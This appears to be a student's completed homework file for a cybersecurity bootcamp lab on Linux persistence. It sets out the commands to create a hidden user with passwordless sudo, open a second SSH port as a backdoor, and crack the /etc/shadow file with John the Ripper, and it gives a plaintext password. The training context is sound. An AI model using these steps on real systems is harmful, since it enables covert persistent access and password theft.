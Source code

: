## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `Your solution command here`
useradd --no-create-home sysd
2. Give your secret user a password: 
    - `Your solution command here`
passwd sysd
password is H3!!L0
3. Give your secret user a system UID < 1000:
    - `Your solution command here`
usermod -u 568 sysd
4. Give your secret user the same GID:
   - `Your solution command here`
groupmod -g 568 sysd
5. Give your secret user full `sudo` access without the need for a password:
   -  `Your solution command here`
usermod -aG sudo sysd
visudo
sysd ALL=(ALL:ALL) NOPASSWD:ALL


6. Test that `sudo` access works without your password:

    ```bash
su sysd
sudo -l
sudo apt update

# User privilege specification


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
sudo nano /etc/ssh/sshd_config
    ```bash
Uncomment Port 22 and Port 2222
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    systemctl restart ssh

2. Exit the `root` account:
    - `Your solution command here`
exit
3. SSH to the target machine using your `sysd` account and port `2222`:
 ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`
ssh sysd@192.168.6.105 -p 2222
2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`
sudo su
john /etc/shadow
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

